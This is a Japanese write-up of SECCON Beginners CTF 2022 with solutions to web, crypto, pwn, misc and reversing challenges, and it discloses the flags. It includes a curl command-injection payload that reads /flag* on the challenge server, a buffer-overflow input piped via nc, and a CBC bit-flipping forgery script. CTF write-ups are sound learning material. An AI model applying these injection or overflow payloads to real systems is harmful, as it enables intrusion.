



# SECCON Beginners 2022 (ctf4b) writeup

## 概要

2022/06/04-2022/06/05にかけて行われたSECCON Beginners CTF 2022 (ctf4b) に一人チーム Metronome で参加しました。

解いた問題は Welcome / Util / hitchhike4b / CoughingFox / Command / Quiz / BeginnersBot / H2 / phisher / Recursive / WinTLS でした。

結果は順位が 95/891 teams, 得点が 820pt でした。





## 詳細

### Welcome

discord serverにフラグがあるいつものsanity check。

`ctf4b{W3LC0M3_70_53CC0N_B361NN3R5_C7F_2022}`

### Util

フロントエンドバリデーションをしているweb問。
直接リクエストを投げればよい。

```text
curl -X POST https://util.quals.beginners.seccon.jp/util/ping -H "Content-Type: application/json" -d '{"address": "1.1.1.1 | cat /flag* #"}'
```

`ctf4b{al1_0vers_4re_i1l}`

### hitchhike4b

ソースコードの配布のないmisc問だが、実行すると以下のように表示されるので手元で試す。

```python
# Source Code

import os
os.environ["PAGER"] = "cat" # No hitchhike(SECCON 2021)

if __name__ == "__main__":
    flag1 = "********************FLAG_PART_1********************"
    help() # I need somebody ...

if __name__ != "__main__":
    flag2 = "********************FLAG_PART_2********************"
    help() # Not just anybody ...
```

手元でガチャガチャしていたら `main` を入力するとflag1が手に入ることが分かった。しかしリモートではうまく行かず、 `__main__` の入力で通った。

```python
help> __main__
Help on module __main__:

NAME
    __main__

DATA
    __annotations__ = {}
    flag1 = 'ctf4b{53cc0n_15_1n_m'

FILE
    /home/ctf/hitchhike4b/app_35f13ca33b0cc8c9e7d723b78627d39aceeac1fc.py
```

しかしflag2が分からない。どうしたものかと思い雑にflagのファイル名から拡張子を抜いたものを入れてみる。2回入れたらflagが出てきた。なぜ...

```python
help> app_35f13ca33b0cc8c9e7d723b78627d39aceeac1fc
Help on module app_35f13ca33b0cc8c9e7d723b78627d39aceeac1fc:

NAME
    app_35f13ca33b0cc8c9e7d723b78627d39aceeac1fc

DATA
    flag2 = 'y_34r5_4nd_1n_my_3y35}'

FILE
    /home/ctf/hitchhike4b/app_35f13ca33b0cc8c9e7d723b78627d39aceeac1fc.py

```

`ctf4b{53cc0n_15_1n_my_34r5_4nd_1n_my_3y35}`

### CoughingFox

暗号化した出力から元のflagを復元せよというCrypto問。

まず、shuffleされていることから結果に対しindexでアクセスして何かするのは無理そう。こういう時は総和などのindexによらない指標を考えるとよい。
と思ったら、そもそも $c_i = (f_i + i)^2 + i$ という形式で生成されているので、 $i$ が小さいことから $i$ で総当たりして引いてみて平方数なら $i$ を確定させていくという方針でよい。

```python
cipher = [12147, 20481, 7073, 10408, 26615, 19066, 19363, 10852, 11705, 17445, 3028, 10640, 10623, 13243, 5789, 17436, 12348, 10818, 15891, 2818, 13690, 11671, 6410, 16649, 15905, 22240, 7096, 9801, 6090, 9624, 16660, 18531, 22533, 24381, 14909, 17705, 16389, 21346, 19626, 29977, 23452, 14895, 17452, 17733, 22235, 24687, 15649, 21941, 11472]

import math

def is_square(i: int) -> bool:
    return i == math.isqrt(i) ** 2

length = len(cipher)

flag = [0]*length
print(flag)
for c in cipher:
    for l in range(length):
        if is_square(c-l):
            f = math.isqrt(c-l)-l
            flag[l] = f
print(''.join([chr(x) for x in flag]))
```

`ctf4b{Hey,Fox?YouCanNotTearThatHouseDown,CanYou?}`

### Command

AESのCBC modeの暗号文から別の暗号文を生成せよというCrypto問。今回はブロックが16byteで1ブロック、かつivを指定できるので平文を自由に操作することができる。

[Google CTF 2016 Writeup - Eucalypt Forest, Wolf Spider - sonickun.log](https://sonickun.hatenablog.com/entry/2016/05/07/202422) を参考にして、組み立てる。

と思ったらうまく行かない。pad/unpad周りが理解できてない雰囲気を感じ取り調べる

[OpenSSLでAES暗号したときのPadding](https://masahikosawada.github.io/2020/02/10/OpenSSL-Padding/) この記事が参考になってpaddingを理解。


```python
# h = 'cbc6c6c6e80f15da5061486adeffad36b98599fadfa3ed853c1922a86f121e4d'
h = '778da59a00ef76e40d067b6ba8b384af86a1d2c6bc32a15e9cd59b5c57ae35ee'

b = bytes.fromhex(h)
iv = b[:16]
enc = b[16:]

print(iv, enc)
# fizzbuzz
# getflag
text1 = 'getflag\x09\x09\x09\x09\x09\x09\x09\x09\x09'
# text2 = 'primes\x08'
text2 = 'fizzbuzz\x08\x08\x08\x08\x08\x08\x08\x08'
L = len(text1)
arr = []
for i in range(L):
    t = ord(text1[i])^ord(text2[i])
    arr.append(t)
ans = []
print(arr)
for i in range(L):
    by = iv[i]^arr[i]
    ans.append(by)
for i in range(L,16):
    ans.append(iv[i])
print((bytes(ans) + enc).hex())
```

出てきたコードを 2 の暗号文を戻して実行するやつに突っ込むとフラグを得る。

`ctf4b{b1tfl1pfl4ppers}`

個人的にはCommandが優勝だと思った。AESの仕組み理解に役立つと感じたし、自分があまりAES理解していなかったのがこれで理解深まったので。

### Quiz

rev問。

radare2で `s <tab>` すると、

```text
ctf4b_w0w_d1d_y0u_ca7ch_7h3_fl4g_1n_0n3_sh07
```

あきらかに怪しい。そのままでは通らない。

記号かな？とちょっと考えて以下で通った。

`ctf4b{w0w_d1d_y0u_ca7ch_7h3_fl4g_1n_0n3_sh07?}`

### BeginnersBot

初心者向けバッファオーバーフローのPwn問。

gdb-pedaとpattcとpattoあたりを眺めつつ地道にpayloadを作った。16byte alignmentは気にした気がする。

以下のようなファイルを用意 (`python3 -c 'print("A"*... + "\x00...")' > input_debug_0` のようにして生成)

```text
❯ hexdump input_debug_0 
0000000 3436 410a 4141 4141 4141 4141 4141 4141
0000010 4141 4141 4141 4141 4141 4141 4141 4141
0000020 4141 4141 4141 4141 4141 e6c3 4011 0000
0000030 0000 0a00                              
0000034
```

`./chall < input_debug_0` でうまくいくことを確認して、ncで接続

```text
❯ nc beginnersbof.quals.beginners.seccon.jp 9000 < input_debug_0 
How long is your name?
What's your name?
Hello AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA��@ctf4b{Y0u_4r3_4lr34dy_4_BOF_M45t3r!}
Segmentation fault
```

`ctf4b{Y0u_4r3_4lr34dy_4_BOF_M45t3r!}`

### H2

pcapが配られるmisc問。

wiresharkで見るとき、Http2なのでdecode asしてやる

header count 5でfilter

```text
Frame 739024: 165 bytes on wire (1320 bits), 165 bytes captured (1320 bits)
Ethernet II, Src: 00:00:00_00:00:00 (00:00:00:00:00:00), Dst: 00:00:00_00:00:00 (00:00:00:00:00:00)
Internet Protocol Version 4, Src: 127.0.0.1, Dst: 127.0.0.1
Transmission Control Protocol, Src Port: 8080, Dst Port: 58020, Seq: 56, Ack: 118, Len: 99
HyperText Transfer Protocol 2
    Stream: HEADERS, Stream ID: 1, Length 90, 200 OK
        Length: 90
        Type: HEADERS (1)
        Flags: 0x04
        0... .... .... .... .... .... .... .... = Reserved: 0x0
        .000 0000 0000 0000 0000 0000 0000 0001 = Stream Identifier: 1
        [Pad Length: 0]
        Header Block Fragment: 884085f2b4b40e6fa122656a3fffd3a5358a2b5054458f5c…
        [Header Length: 184]
        [Header Count: 5]
        Header: :status: 200 OK
        Header: x-flag: ctf4b{http2_uses_HPACK_and_huffm4n_c0ding}
            Name Length: 6
            Name: x-flag
            Value Length: 42
            Value: ctf4b{http2_uses_HPACK_and_huffm4n_c0ding}
            [Unescaped: ctf4b{http2_uses_HPACK_and_huffm4n_c0ding}]
            Representation: Literal Header Field with Incremental Indexing - New Name
        Header: content-type: text/plain; charset=utf-8
        Header: content-length: 23
        Header: date: Tue, 31 May 2022 15:03:15 GMT

```

`ctf4b{http2_uses_HPACK_and_huffm4n_c0ding}`

### phisher

はじめはhomograph attack makerとかで検索してたけどうまくいかない。

Dockerファイルが配られているので、以下のようなコードを書いて総当たり

`o` を探す例

```python
if __name__ == "__main__":
    for i in range(0xff,0xffff):
        c = chr(i)
        c = "www.examle.c{}m".format(c)
        out = ocr(text2png(c))
        if 'o' in out:
            print("char = ", c, " out = ", out)
```



`ctf4b{n16h7_ph15h1n6_15_600d}`

### Recursive

ELFのrev問。
途中、tableという変数を元に比較を行うcheck関数がghidraで見つかる。tableをガッと取ってきて、flagの長さを調節してみた。

比較の最後でindexと比較対象のtableの値を出力すれば正しいflagが出てくる。

```python
table = [0x63, 0x74, 0x60, 0x2a, 0x66, 0x34, 0x28, 0x2b, 0x62, 0x63, 0x39, 0x35, 0x22, 0x2e, 0x38, 0x31, 0x62, 0x7b, 0x68, 0x6d, 0x72, 0x33, 0x63, 0x2f, 0x7d, 0x72, 0x40, 0x3a, 0x7b, 0x26, 0x3b, 0x35, 0x31, 0x34, 0x6f, 0x64, 0x2a, 0x3c, 0x68, 0x2c, 0x6e, 0x27, 0x64, 0x6d, 0x78, 0x77, 0x3f, 0x6c, 0x65, 0x67, 0x28, 0x79, 0x6f, 0x29, 0x6e, 0x65, 0x2b, 0x6a, 0x2d, 0x7b, 0x28, 0x60, 0x71, 0x2f, 0x72, 0x72, 0x33, 0x7c, 0x28, 0x24, 0x30, 0x2b, 0x35, 0x73, 0x2e, 0x7a, 0x7b, 0x5f, 0x6e, 0x63, 0x61, 0x75, 0x72, 0x24, 0x7b, 0x73, 0x31, 0x76, 0x35, 0x25, 0x21, 0x70, 0x29, 0x68, 0x21, 0x71, 0x27, 0x74, 0x3c, 0x3d, 0x6c, 0x40, 0x5f, 0x38, 0x68, 0x39, 0x33, 0x5f, 0x77, 0x6f, 0x63, 0x34, 0x6c, 0x64, 0x25, 0x3e, 0x3f, 0x63, 0x62, 0x61, 0x3c, 0x64, 0x61, 0x67, 0x78, 0x7c, 0x6c, 0x3c, 0x62, 0x2f, 0x79, 0x2c, 0x79, 0x60, 0x6b, 0x2d, 0x37, 0x7b, 0x3d, 0x3b, 0x7b, 0x26, 0x38, 0x2c, 0x38, 0x75, 0x35, 0x24, 0x6b, 0x6b, 0x63, 0x7d, 0x40, 0x37, 0x71, 0x40, 0x3c, 0x74, 0x6d, 0x30, 0x33, 0x3a, 0x26, 0x2c, 0x66, 0x31, 0x76, 0x79, 0x62, 0x27, 0x38, 0x25, 0x64, 0x79, 0x6c, 0x32, 0x28, 0x67, 0x3f, 0x37, 0x31, 0x37, 0x71, 0x23, 0x75, 0x3e, 0x66, 0x77, 0x28, 0x29, 0x76, 0x6f, 0x6f, 0x24, 0x36, 0x67, 0x29, 0x3a, 0x29, 0x5f, 0x63, 0x5f, 0x2b, 0x38, 0x76, 0x2e, 0x67, 0x62, 0x6d, 0x28, 0x25, 0x24, 0x77, 0x28, 0x3c, 0x68, 0x3a, 0x31, 0x21, 0x63, 0x27, 0x72, 0x75, 0x76, 0x7d, 0x40, 0x33, 0x60, 0x79, 0x61, 0x21, 0x72, 0x35, 0x26, 0x3b, 0x35, 0x7a, 0x5f, 0x6f, 0x67, 0x6d, 0x30, 0x61, 0x39, 0x63, 0x32, 0x33, 0x73, 0x6d, 0x77, 0x2d, 0x2e, 0x69, 0x23, 0x7c, 0x77, 0x7b, 0x38, 0x6b, 0x65, 0x70, 0x66, 0x76, 0x77, 0x3a, 0x33, 0x7c, 0x33, 0x66, 0x35, 0x3c, 0x65, 0x40, 0x3a, 0x7d, 0x2a, 0x2c, 0x71, 0x3e, 0x73, 0x67, 0x21, 0x62, 0x64, 0x6b, 0x72, 0x30, 0x78, 0x37, 0x40, 0x3e, 0x68, 0x2f, 0x35, 0x2a, 0x68, 0x69, 0x3c, 0x37, 0x34, 0x39, 0x27, 0x7c, 0x7b, 0x29, 0x73, 0x6a, 0x31, 0x3b, 0x30, 0x2c, 0x24, 0x69, 0x67, 0x26, 0x76, 0x29, 0x3d, 0x74, 0x30, 0x66, 0x6e, 0x6b, 0x7c, 0x30, 0x33, 0x6a, 0x22, 0x7d, 0x37, 0x72, 0x7b, 0x7d, 0x74, 0x69, 0x7d, 0x3f, 0x5f, 0x3c, 0x73, 0x77, 0x78, 0x6a, 0x75, 0x31, 0x6b, 0x21, 0x6c, 0x26, 0x64, 0x62, 0x21, 0x6a, 0x3a, 0x7d, 0x21, 0x7a, 0x7d, 0x36, 0x2a, 0x60, 0x31, 0x5f, 0x7b, 0x66, 0x31, 0x73, 0x40, 0x33, 0x64, 0x2c, 0x76, 0x69, 0x6f, 0x34, 0x35, 0x3c, 0x5f, 0x34, 0x76, 0x63, 0x5f, 0x76, 0x33, 0x3e, 0x68, 0x75, 0x33, 0x3e, 0x2b, 0x62, 0x79, 0x76, 0x71, 0x23, 0x23, 0x40, 0x66, 0x2b, 0x29, 0x6c, 0x63, 0x39, 0x31, 0x77, 0x2b, 0x39, 0x69, 0x37, 0x23, 0x76, 0x3c, 0x72, 0x3b, 0x72, 0x72, 0x24, 0x75, 0x40, 0x28, 0x61, 0x74, 0x3e, 0x76, 0x6e, 0x3a, 0x37, 0x62, 0x60, 0x6a, 0x73, 0x6d, 0x67, 0x36, 0x6d, 0x79, 0x7b, 0x2b, 0x39, 0x6d, 0x5f, 0x2d, 0x72, 0x79, 0x70, 0x70, 0x5f, 0x75, 0x35, 0x6e, 0x2a, 0x36, 0x2e, 0x7d, 0x66, 0x38, 0x70, 0x70, 0x67, 0x3c, 0x6d, 0x2d, 0x26, 0x71, 0x71, 0x35, 0x6b, 0x33, 0x66, 0x3f, 0x3d, 0x75, 0x31, 0x7d, 0x6d, 0x5f, 0x3f, 0x6e, 0x39, 0x3c, 0x7c, 0x65, 0x74, 0x2a, 0x2d, 0x2f, 0x25, 0x66, 0x67, 0x68, 0x2e, 0x31, 0x6d, 0x28, 0x40, 0x5f, 0x33, 0x76, 0x66, 0x34, 0x69, 0x28, 0x6e, 0x29, 0x73, 0x32, 0x6a, 0x76, 0x67, 0x30, 0x6d, 0x34]

def check(st, i, orig):
    iVar3 = len(st)
    if iVar3 == 1:
        if table[i] != st[0]:
            # print("orig = ",orig ,"i = ", i, " table = ", table[i])
            print(chr(table[i]), end="")
            return 0
    else:
        iVar1 = iVar3 // 2
        _dest = st[:iVar1]
        iVar2 = check(_dest, i, orig)
        if iVar2 == 1:
            return 1
        _dest = st[iVar1:]
        i = iVar1*iVar1 + i
        iVar3 = check(_dest, i, orig+iVar1)
        if iVar3 == 1:
            return 1
    return 0


check("ctf{aaaxaaaxaaaxaaaxaaaxaaaxaaaxxaaxa}", 0, 0)

```

`ctf4b{r3curs1v3_c4l1_1s_4_v3ry_u53fu1}`

### WinTLS

Windowsバイナリのrev問

なんでexe?と思ったら、TLSは[スレッド局所記憶](https://docs.microsoft.com/ja-jp/windows/win32/procthread/using-thread-local-storage)というのらしい

要はstoreでしょと思ってget/setをghidraで追いかける

```text
TlsSetValue(TLS,"tfb%s$T9NvFyroLh@89a9yoC3rPy&3b}");

TlsSetValue(TLS,"c4{fAPu8#FHh2+0cyo8$SWJH3a8X");
```

怪しい～～～！！！なんかおぼろげながら `ctf4b` が見える

追いかけていくとfizzbuzzみたいなことしてたのでpythonで書き直す

```python
text1 = "c4{fAPu8#FHh2+0cyo8$SWJH3a8X" # ==3 || == 5
text2 = "tfb%s$T9NvFyroLh@89a9yoC3rPy&3b}" # != 3 && != 5

ans = ""
ind1 = 0
ind2 = 0
for i in range(len(text1+text2)):
    if i %3 == 0 or i%5 == 0:
        ans += text1[ind1]
        ind1 += 1
    else:
        ans += text2[ind2]
        ind2+= 1
print(ans)
```

`ctf4b{f%sAP$uT98Nv#FFHyrh2o+Lh0@8c9yoa98$ySoCW3rJPH3y&a83Xb}`

## 終わりに

　もう解けんしええかと早めに切り上げるのをやめて、ずっと格闘できたのが収穫でした。
　運営の皆様、楽しいCTFをありがとうございました。
